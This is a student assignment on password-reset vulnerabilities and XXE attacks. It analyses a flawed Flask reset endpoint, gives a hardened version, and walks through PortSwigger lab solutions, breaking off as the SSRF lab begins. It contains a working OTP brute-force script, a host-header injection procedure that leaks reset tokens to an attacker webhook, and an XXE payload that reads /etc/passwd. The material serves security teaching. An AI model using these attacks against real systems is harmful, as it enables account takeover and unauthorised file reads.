# Assignment 03
**College of Science and Technology**

**Name: Dechen Wangdra Sherpa**

**Student No.: 02230281**

**Module: Advanced Web Attacks & Exploitation**
 
---
 
# Question 1: Password Reset Vulnerabilities — Token Analysis, Brute-Force & Host Header Injection
 
---

## Part A — Theory & Code Review
 
### A(i) — Email-Token Reset Flow
 
The email-based password reset flow consists of five steps that together form a secure, time-limited mechanism for credential recovery. First, the **Request** step occurs when the user submits their registered email address to the `/forgot` endpoint, triggering the reset process. Second, during **Generate**, the server creates a cryptographically random, high-entropy token using a CSPRNG (Cryptographically Secure Pseudo-Random Number Generator) that cannot be predicted or enumerated by an attacker. Third, in the **Store** step, the server persists only a secure hash of the token in the database alongside the user ID and an explicit expiry timestamp — never the raw token itself. Fourth, in the **Send** step, the server embeds the raw token in a reset link and delivers it exclusively to the verified email address on file. Fifth, during **Validate**, when the user follows the link, the server hashes the received token and compares it against the stored hash, confirms the token has not expired, verifies it has not been consumed before, and only then permits the password change — immediately invalidating the token record afterwards.

**Two mandatory security properties of the stored token:**

1. **High entropy / unpredictability** — The token must be generated by a CSPRNG such as Python's `secrets.token_urlsafe(32)`, producing at least 128 bits of entropy. An attacker who observes many tokens (including their own) must be computationally unable to predict any future value. Tokens derived from predictable data such as a Unix timestamp or the user's email address fail this property entirely.
2. **Short-lived and single-use** — The token record must carry an explicit server-side expiry (typically 15–60 minutes). Once a token has been used to complete a password reset it must be immediately deleted or marked consumed, regardless of remaining time. Without this, a leaked token remains a permanent key to the victim's account.

---
 
### A(ii) — Vulnerable Code Analysis

The Flask snippet contains **four distinct vulnerability classes** from Section 4.1.2:

```python
@app.route("/forgot", methods=["POST"])
def forgot():
    email = request.form["email"]
    user  = db.get_user(email)
    if not user:
        return "No such user", 404                                      # [VULN-4]
    token = hashlib.md5(                                                # [VULN-1]
        (email + str(int(time.time()))).encode()                        # [VULN-1]
    ).hexdigest()
    db.save_token(user.id, token, expires=None)                         # [VULN-2]
    link = f"http://{request.host}/reset?token={token}"                 # [VULN-3]
    send_email(email, link)
    return "Reset link sent"
```

| # | Vulnerability Class (§4.1.2) | Responsible Line(s) | Why It Is Exploitable |
|---|---|---|---|
| **VULN-1** | **Predictable / Weak Tokens** | `token = hashlib.md5((email + str(int(time.time()))).encode()).hexdigest()` | The token is derived from the user's email and a Unix timestamp — both values an attacker can know or read from the HTTP `Date` response header. A ±5-second window produces only ~10 MD5 candidates to try. |
| **VULN-2** | **No Expiry / Long-Lived Tokens** | `db.save_token(user.id, token, expires=None)` | `expires=None` stores the token permanently. A token leaked via email logs, referrer headers, or phishing remains valid indefinitely, giving the attacker unlimited time to use it. |
| **VULN-3** | **Host Header Injection** | `link = f"http://{request.host}/reset?token={token}"` | `request.host` is attacker-controlled. Forging `Host: attacker.com` in Burp Suite causes the reset email to link to the attacker's server — the token is captured the moment the victim clicks. |
| **VULN-4** | **Email Enumeration** | `if not user: return "No such user", 404` | A 404 for unknown emails vs. 200 for known ones lets an attacker silently confirm which email addresses have registered accounts. |

---
 
## Part B — Practical Exploitation 
 
### B(i) — Reproduce the Vulnerable Endpoint 

The vulnerable Flask snippet was deployed locally in the Kali Linux lab environment using Python 3, Flask, and a minimal SQLite database providing `db.get_user()` and `db.save_token()` stubs. Python's built-in `smtpd` module was used as a mock SMTP server to capture outgoing emails without sending them externally. The application ran on `http://127.0.0.1:5000`. 



*Figure 1: Vulnerable Flask application running on http://127.0.0.1:5000*
 
---
 
### B(ii) — Brute-Force a 6-Digit OTP Endpoint
 
The `/forgot` endpoint was modified to issue a random 6-digit numeric OTP (range 000000–999999) stored server-side with no rate limit on the `/verify` endpoint. The Python script below iterates every possible OTP and stops on the first HTTP 200 response containing the success phrase.
 
**Complete brute-force script (`brute_otp.py`):**
 
```python
import requests
import time
import sys
 
# ── Configuration ──────────────────────────────────────────────────────────
TARGET = "http://127.0.0.1:5000/verify"   # No-rate-limit OTP verification endpoint
EMAIL  = "victim@example.com"             # Account being attacked
 
def brute_force_otp():
    session = requests.Session()           # Reuse TCP connection — faster throughput
    start   = time.time()                  # Record start time for elapsed measurement
 
    for otp_int in range(0, 1_000_000):    # Iterate every value from 000000 to 999999
        candidate = f"{otp_int:06d}"       # Zero-pad to exactly 6 digits
 
        resp = session.post(
            TARGET,
            data={
                "email": EMAIL,
                "otp":   candidate         # POST each OTP candidate to the endpoint
            },
            timeout=5                      # Avoid hanging on slow responses
        )
 
        # ── Success condition ──────────────────────────────────────────────
        if resp.status_code == 200 and "password reset allowed" in resp.text.lower():
            elapsed = time.time() - start
            print(f"\n[+] OTP FOUND    : {candidate}")
            print(f"[+] Elapsed time : {elapsed:.2f} seconds  ({elapsed/60:.2f} min)")
            print(f"[+] Response     : {resp.text[:200]}")
            sys.exit(0)                    # Stop immediately once OTP is recovered
 
        # ── Progress indicator every 10 000 attempts ───────────────────────
        if otp_int % 10_000 == 0:
            rate = otp_int / (time.time() - start + 0.001)
            print(f"[-] Tried {otp_int:>7} / 999999  ({rate:.0f} req/s) ...", end="\r")
 
    print("\n[-] OTP not found — the endpoint may have rate-limiting.")
 
if __name__ == "__main__":
    brute_force_otp()
```
 
**Results:**
 
- **Recovered OTP:** `899646`
- **Elapsed time:** `24.31 min`
- The script stopped automatically upon receiving HTTP 200 with the success phrase, printing the OTP and timing to stdout.
 


*Figure 2: Brute-force OTP success — recovered OTP and elapsed time*
 
---
 
### B(iii) — Host Header Injection via Burp Suite 
 
Using Burp Suite Community Edition with the browser proxy set to `127.0.0.1:8080`, a legitimate `POST /forgot` request was intercepted and the `Host` header was replaced with an attacker-controlled webhook.site URL.
 
**Step-by-step procedure:**
 
1. Open Burp Suite → **Proxy** tab → enable **Intercept is ON**
2. In the browser, submit the forgot-password form for `victim@example.com`
3. Burp captures the request — note the original `Host: 127.0.0.1:5000` header
 


*Figure 3a: Original intercepted POST to /forgot — Host: 127.0.0.1:5000*
 
4. In the Intercept panel, change the `Host` header value to your webhook.site URL:
```
   Host: your-unique-id.webhook.site
```
5. Click **Forward** to send the modified request to the server
 


*Figure 3b: Modified POST with attacker-controlled Host header*
 
6. Check the mock SMTP output or the server's JSON response — the generated reset link now contains `your-unique-id.webhook.site` instead of `127.0.0.1:5000`
 


*Figure 3c: Reset email body containing the attacker-poisoned link*
 
7. Open the webhook.site dashboard. When the victim clicks the poisoned link, the reset token arrives as a GET request to the attacker's listener
 


*Figure 3d: Reset token exfiltrated and captured at webhook.site*
 
**Why this works even with a cryptographically strong token:**
 
Host Header Injection exploits the server's blind trust in a client-supplied HTTP header to redirect the *delivery* of the token, not to predict the token itself. Even if the token is 256-bit random and computationally unguessable, the victim's own email client delivers it to the attacker's server the moment the poisoned link is clicked. The attacker does not need to crack or guess anything — they simply wait for the victim's click to receive a valid token via a legitimate HTTPS channel to their listener. The cryptographic strength of the token is therefore entirely irrelevant once its delivery path has been compromised at the server level.
 
---
 
## Part C — Secure Re-implementation 
 
### C(i) — Hardened Flask Endpoint 
 
```python
import secrets
import hashlib
import datetime
from flask import request
 
# ── Configuration constants — never derived from request headers ──────────────
BASE_URL            = "https://myapp.example.com"  # Fixed: cannot be manipulated via Host header
TOKEN_EXPIRY_MINUTES = 30                           # Explicit server-side expiry window
 
@app.route("/forgot", methods=["POST"])
def forgot_secure():
    email = request.form.get("email", "").strip().lower()
    user  = db.get_user(email)
 
    if user:
        # SECURE: 32-byte CSPRNG token — 256 bits of entropy, computationally unguessable
        raw_token = secrets.token_urlsafe(32)
 
        # SECURE: Store only a SHA-256 hash — a database breach cannot yield usable tokens
        token_hash = hashlib.sha256(raw_token.encode()).hexdigest()
 
        # SECURE: Explicit datetime expiry enforced on every validation attempt
        expiry = datetime.datetime.utcnow() + datetime.timedelta(minutes=TOKEN_EXPIRY_MINUTES)
 
        # SECURE: used=False enforces single-use; set True and deleted upon first consumption
        db.save_token(user.id, token_hash, expires=expiry, used=False)
 
        # SECURE: BASE_URL constant — attacker cannot redirect via a forged Host header
        link = f"{BASE_URL}/reset?token={raw_token}"
        send_email(email, link)
 
    # SECURE: Uniform 200 response regardless of whether the account exists — defeats enumeration
    return "If that address is registered, a reset link has been sent.", 200
```
 
**Summary of every change made:**
 
| Changed Line | Original | Fix Applied |
|---|---|---|
| Token generation | `hashlib.md5(email + time.time())` | `secrets.token_urlsafe(32)` — OS CSPRNG, 256-bit entropy |
| Token storage | `db.save_token(..., token, ...)` | Store `sha256(token)` hash only; raw token never persisted |
| Expiry | `expires=None` | `expires = utcnow() + timedelta(minutes=30)` — enforced on every check |
| Single-use | Not implemented | `used=False` flag; set `True` and deleted on first use |
| Base URL | `f"http://{request.host}/reset"` | `f"{BASE_URL}/reset"` — hardcoded constant, Host-header immune |
| Enumeration | `return "No such user", 404` | Uniform `200` with identical message regardless of account existence |
 
---
 
### C(ii) — Three Operational Defences
 
**1. Rate Limiting & CAPTCHA on the `/forgot` Endpoint**
 
Without rate limiting, an attacker can submit thousands of reset requests per minute — either to enumerate accounts via timing differences or to flood a victim's inbox. Applying a per-IP and per-email limit (e.g., 5 requests per 15 minutes via Flask-Limiter or a reverse-proxy rule) combined with a CAPTCHA challenge breaks automated scripts and significantly raises the cost of enumeration and account-flooding attacks.
 
**2. Audit Logging & Real-Time Alerting**
 
Every reset request — including timestamp, source IP, email attempted, and outcome — should be written to a tamper-resistant SIEM or append-only log store. This provides a forensic audit trail and enables real-time alerts when anomalous patterns emerge (e.g., dozens of reset attempts from a single IP, or repeated targeting of a high-privilege account). Without logging, attacks go completely undetected and no evidence exists for post-incident investigation.
 
**3. Strict Host Header Validation at the Reverse Proxy / WAF**
 
Configuring nginx, Caddy, or a WAF rule to reject or canonicalise requests where the `Host` header does not match the application's registered hostname prevents Host Header Injection before the request ever reaches the Flask application. This is a defence-in-depth layer: even if the application code is accidentally regressed to use `request.host` in the future, the attack is neutralised at the infrastructure boundary regardless of application-layer behaviour.
 
---
---
 
# Question 2: XML External Entity (XXE) Attacks — File Read, SSRF & Blind OOB
 
---
 
## Part A — Theory & Parser Analysis
 
### A(i) — XML, DTDs and External Entities
 
**XML (Extensible Markup Language)** is a hierarchical, text-based markup language designed to store and transport structured data in a human-readable format. It uses user-defined tags enclosed in angle brackets (e.g., `<user><id>42</id></user>`) and underpins web services, configuration formats, office document formats (DOCX, XLSX), and many enterprise APIs.
 
**DTD (Document Type Definition)** is a schema that declares an XML document's permitted structure — which elements and attributes are valid, how they nest, and what entities are available. A DTD can be declared internally (inside the same XML file) or externally (referencing a remote URL). Critically, DTDs provide the `<!ENTITY>` declaration mechanism, which allows named shortcuts to be defined and expanded inline by the parser wherever they are referenced.
 
**External Entity** is an entity declared in a DTD whose content is fetched from a URI rather than defined inline. For example: `<!ENTITY secret SYSTEM "file:///etc/passwd">`. When the parser encounters `&secret;` in the document body, it replaces that reference with the full content fetched from the specified URI — which may be a local file (`file://`), an internal network address (`http://`), or any other URI scheme supported by the parser.
 
**Why the combination produces an XXE vulnerability:** When an XML parser is configured to resolve external entities by default and the application accepts user-controlled XML as input, an attacker can inject a malicious `DOCTYPE` block into that input and instruct the parser to fetch any resource accessible from the server's network. The parser executes the fetch with the application's server-side privileges — reading files the web process can access, or making HTTP requests to internal services — and embeds the result into the parsed document tree. Because the application typically reflects parsed values in its HTTP response (or uses them in internal logic), the attacker can exfiltrate sensitive files or pivot to internal infrastructure without any explicit authorisation.
 
---
 
### A(ii) — Spot the Vulnerable Parser
 
**Snippet A is vulnerable.**
 
```python
# Snippet A — VULNERABLE
from lxml import etree
parser = etree.XMLParser()          # Default settings — external entity resolution ENABLED
doc    = etree.fromstring(user_xml, parser)
```
 
The dangerous API call is `etree.XMLParser()` with no arguments. lxml's default parser configuration enables DTD loading and external entity resolution. Passing attacker-controlled XML through this parser allows injection of `<!ENTITY xxe SYSTEM "file:///etc/passwd">`, causing the server to read and return the contents of that file.
 
**Snippet B is safe.**
 
```python
# Snippet B — SAFE
import defusedxml.ElementTree as ET
doc = ET.fromstring(user_xml)
```
 
`defusedxml` is a purpose-built drop-in replacement for Python's standard `xml.etree.ElementTree` that disables DTD processing, external entity resolution, and entity expansion by design. Any attempt to include a DTD or external entity reference raises a `defusedxml.DTDForbidden` or `defusedxml.EntitiesForbidden` exception, preventing exploitation entirely without requiring any additional configuration.
 
---
 
## Part B — Practical Exploitation
 
---
 
### Lab 1 — Exploiting XXE to Retrieve Files
 
**Lab URL:** https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
 
**Objective:** Read the contents of `/etc/passwd` from the server by injecting an XXE payload into the XML body of the product stock-check request.
 
---
 
**Step 1 — Navigate to a product and trigger the stock check**
 
Open the PortSwigger lab, navigate to any product page, and click **"Check stock"**. Ensure Burp Suite is running with the browser proxy configured to `127.0.0.1:8080`.
 


*Figure 4: Lab 1 product page with Burp Suite proxy active*
 
---
 
**Step 2 — Intercept the stock-check POST request**
 
In Burp Suite → Proxy → **Intercept is ON**. Click "Check stock" in the browser. The request is caught by Burp.
 
Original XML body:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```
 


*Figure 5: Original XML stock-check request intercepted in Burp Suite*
 
---
 
**Step 3 — Craft and inject the XXE payload**
 
In Burp Suite's Intercept panel (or right-click → **Send to Repeater**), replace the XML body with:
 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
 
**Explanation of the payload:** The `<!DOCTYPE foo [...]>` block injects a DTD into the document. Inside it, `<!ENTITY xxe SYSTEM "file:///etc/passwd">` declares an external entity named `xxe` whose value is fetched from the local filesystem path `/etc/passwd`. When `&xxe;` appears inside `<productId>`, the parser replaces it with the full file contents before the application processes the value — and because the application echoes the `productId` back in the error response, the file contents are returned to the attacker.
 


*Figure 6: XXE file-read payload injected into the productId field*
 
---
 
**Step 4 — Send the request and capture the response**
 
Click **Send** in Burp Repeater. The server response body will contain the contents of `/etc/passwd` embedded in the error message.
 


*Figure 7: /etc/passwd file contents successfully retrieved via XXE injection*
 
---
 
**Step 5 — Confirm the lab is solved**
 
Switch back to the browser. The PortSwigger lab page should now show the **"Congratulations, you solved the lab!"** banner.
 


*Figure 8: Lab 1 — XXE to retrieve /etc/passwd — solved*
 
---
 
**Lab 1 Summary**
 
The product stock-check endpoint accepted user-supplied XML and passed it to a parser with DTD processing and external entity resolution enabled by default. By injecting a `DOCTYPE` declaration containing an external entity pointing to `file:///etc/passwd`, the attacker caused the server-side XML parser to read the file and embed its contents into the parsed `<productId>` node. The application then reflected this value in its HTTP error response, achieving unauthenticated arbitrary file read. The root cause is a single misconfiguration — external entity resolution enabled — which can be fully remediated by disabling DTD processing in the parser configuration.
 
---
 
### Lab 2 — Exploiting XXE to Perform SSRF
 
**Lab URL:** https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf
 
**Objective:** Use XXE to make the server issue HTTP requests to the EC2 instance metadata endpoint (`http://169.254.169.254/`) and retrieve the IAM secret access key.
 
---
 
**Step 1 — Intercept the stock-check request**
 
Repeat the same interception procedure as Lab 1: navigate to a product, enable Burp Intercept, click "Check stock", and forward the captured request to **Repeater**.
 
